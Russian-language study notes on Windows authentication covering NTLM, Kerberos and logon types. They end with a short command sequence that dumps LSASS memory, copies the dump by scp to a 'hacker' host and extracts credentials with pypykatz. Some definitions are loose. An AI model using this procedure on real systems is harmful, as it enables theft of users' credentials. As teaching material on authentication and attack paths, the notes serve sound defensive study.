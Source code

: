 `Authentication, authorization, and accounting`
**Identification** - предъявление логина, паспорта и проверка что такой пользователь может авторизоваться, получить доступ
**Authentication** - проверка подлинности по доп.признаку (паролю, PIN)
**Authorization** - проверка подлинности, тот кто есть действительно он
**Accounting** - журналирование событий

Локальная аутентификация
lsaas.exe переводит ввод пользователя в hash и сравнивает с локальной БД SAM (hash)
![[Pasted image 20231026203931.png]]
### NTLM и NetLogon
NTLM это алгоритм аутентификации по сети в AD. NetLogon это служба которая проводит процесс аутентификации на хосте
![[Pasted image 20231026204811.png]]
### NTLMv2
Добавилась метка времени в ответ с паролем 
![[Pasted image 20231026205002.png]]
### Kerberos
Протокол аутентификации который состоит из 3 этапов
1. Получение билета TGT у DC на сессию
2. Получение билета TGS у DC запрос на авторизацию в сервисе
3. Запрос у сервиса авторизацию с TGS. Сервис проверяет у DC может ли он пустить

![[Pasted image 20231026205748.png]]
## Типы авторизации
type2 - интерактивный. Физически через клавиатуру.
type3 - сетевой. Авторизация по сети, например на SMB папке
type4 - пакетный. Без участия пользователя, через задание
type5 - служба. Какая та служба от имени пользователя
type7 - разблокирование ПК. после блокировки сессии Win+L
type8 - clear_text. Когда авторизация происходит открытым паролем, например IIS
type9 - запущено от имени
type10 - авторизация через RDP, или виртуальный терминал
type11 - авторизация через кешерованную УЗ в реестре Computer\HKEY_LOCAL_MACHINE\SECURITY\Cache. Это происходит когда пользователь вышел из сети, авторизовался автономно и затем подключился к сети, для удаленщиков. Можно украсть через mimicatz
```
Открыть от админа диспетчер и найти процесс lsass.exe
lsass.exe <ПКМ> создать файл Дампа 
Открыть от админа cmd и отпавить файл
C:\Users\ADMpetr\AppData\Local\Temp>scp lsass.DMP hacker@192.168.10.10:/home/hacker
на Кали
pypykatz lsa minidump /home/hacker/lsass.DMP 
```